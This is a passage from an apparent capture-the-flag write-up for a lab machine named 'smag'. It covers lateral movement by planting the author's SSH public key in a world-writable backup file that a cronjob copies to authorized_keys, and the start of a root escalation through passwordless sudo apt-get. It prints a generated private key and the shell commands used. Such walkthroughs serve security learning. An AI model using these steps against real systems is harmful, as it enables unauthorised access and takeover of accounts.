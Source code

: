 ```bash
www-data@smag:/opt/.backups$ ls -al     
  ls -al
  total 12
  drwxr-xr-x 2 root root 4096 Jun  4  2020 .
  drwxr-xr-x 3 root root 4096 Jun  4  2020 ..
  -rw-rw-rw- 1 root root  563 Jun  5  2020 jake_id_rsa.pub.backup
```
We can write our own key to the authorized_keys. Let's start by generating a new ssh key on our attacker machine:
```bash
$ ssh-keygen                 
  Generating public/private ed25519 key pair.
  Enter file in which to save the key (/home/[removed]/.ssh/id_ed25519): id_rsa
  Enter passphrase (empty for no passphrase): 
  Enter same passphrase again: 
  Your identification has been saved in id_rsa
  Your public key has been saved in id_rsa.pub
  The key fingerprint is:
  SHA256:[removed]
  The key's randomart image is:
  +--[ED25519 256]--+
  |        ..*o*o   |
  |       ..+ *E+   |
  |        +.  +..  |
  |       = .+o     |
  |      + S.oo o   |
  |       = =  = .  |
  | . .  o o  . +   |
  |..o.+ .o  . ... .|
  |o..oo+oo.. ...oo |
  +----[SHA256]-----+
cat id_rsa
  -----BEGIN OPENSSH PRIVATE KEY-----
  b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
  QyNTUxOQAAACDeJF+qtBLA78OYcZ8pFMj/WWDm4sod5UuZ
  tYm4XQSBtLuHGgafHpbEAAAACWthbGlAa2FsaQECAwQ=
  -----END OPENSSH PRIVATE KEY-----
```
Now copy the public key and execute the following command on the victim machine:
```bash
echo "ssh-rsa b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbAAAACWthbGlAa2FsaQECAwQ= kali@kali" > /opt/.backups/jake_id_rsa.pub.backup
```
Grab yourself a coffee and wait for the cronjob to be executed. After a while you should be able to login
```bash
jake@smag:~$ cat user.txt 
[*** removed ***]
jake@smag:~$ 
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/apt-get/">gftobins</a> gave me all I needed: